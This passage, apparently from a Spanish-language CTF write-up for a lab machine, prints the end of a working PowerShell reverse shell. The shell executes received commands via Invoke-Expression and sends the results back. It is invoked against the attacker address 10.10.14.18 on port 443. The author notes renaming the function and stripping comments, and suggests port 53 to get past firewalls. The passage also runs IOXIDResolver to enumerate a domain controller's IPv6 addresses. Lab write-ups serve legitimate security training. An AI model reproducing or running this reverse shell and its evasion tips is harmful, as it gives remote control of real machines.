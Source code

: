 ```powershell
{
$sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
}
catch
{
Write-Warning "Something went wrong with execution of command on the target."
Write-Error $_
}
$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> '
$x = ($error[0] | Out-String)
$error.clear()
$sendback2 = $sendback2 + $x
  
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
$stream.Write($sendbyte,0,$sendbyte.Length)
$stream.Flush()
}
$client.Close()
if ($listener)
{
$listener.Stop()
}
}
catch
{
Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
Write-Error $_
}
}
ruycr4ft -Reverse -IPAddress 10.10.14.18 -Port 443
```

Básicamente he quitado los comentarios y he renombrado la función por `ruycr4ft`. 
En caso de que no nos llegue la conexión por culpa del FireWall, podemos usar el puerto 53 (DNS) que no suele estar bloqueado.

## IOXIDResolver

Podemos usar [esta](https://raw.githubusercontent.com/mubix/IOXIDResolver/master/IOXIDResolver.py) herramienta para empezar a atacar un DC por IPv6:

```shell
❯ python2 IOXIDResolver.py -t <IPv4>
[*] Retrieving network interface of 10.10.10.213
Address: apt
Address: 10.10.10.213
Address: dead:beef::b885:d62a:d679:573f
Address: dead:beef::1867:341f:16ef:511b
Address: dead:beef::a0
```
